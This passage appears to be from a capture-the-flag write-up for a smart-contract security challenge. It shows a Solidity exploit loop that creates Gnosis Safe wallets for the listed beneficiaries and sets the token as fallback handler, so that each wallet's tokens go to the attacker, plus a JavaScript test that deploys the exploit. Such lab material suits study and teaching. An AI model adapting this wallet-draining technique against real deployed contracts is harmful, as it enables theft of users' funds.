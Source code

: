 ```solidity
        // Create a wallet for each beneficiary
        for (uint256 i = 0; i < victims.length; i++) {
            address beneficiary = victims[i];
            address[] memory owners = new address[](1);
            owners[0] = beneficiary;

            address wallet = address(
                walletFactory.createProxyWithCallback(
                    masterCopyAddress, // Singleton, the Gnosis master copy
                    abi.encodeWithSelector( // Build initializer bytes array
                        IGnosisSafe.setup.selector, // Function signature to call, must be setup()
                        owners, // Must be exaclty one of the registered beneficiaries
                        1, // Threshold, must be 1
                        address(0), // Optional delegatecall address, don't care
                        0x0, // Optional delegatecall data, don't care
                        address(token), // Sepcify the token as fallback handler
                        address(0), // Payment token, don't care
                        0, // Payment, don't care
                        address(0) // Payment receiver, don't care
                    ),
                    0, // Don't care about the salt or what address the wallet gets from it
                    IProxyCreationCallback(registryAddress) // Registry has the callback to be exploited
                )
            );

            // Wallet should now have received the DVT tokens from the callback

            // We'll act as if the wallet itself is a token,
            // this transfer will be forwarded to the token contract
            IERC20(wallet).transfer(msg.sender, 10 ether);
        }
    }
}
```

Solution (challenge):

```javascript
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const exploitContract = await ethers.getContractFactory('WalletRegistryExploit', attacker)
        const exploit = await exploitContract.deploy(
            this.walletRegistry.address,
            this.masterCopy.address,
            this.walletFactory.address,
            this.token.address,
            users
        )
    });
```
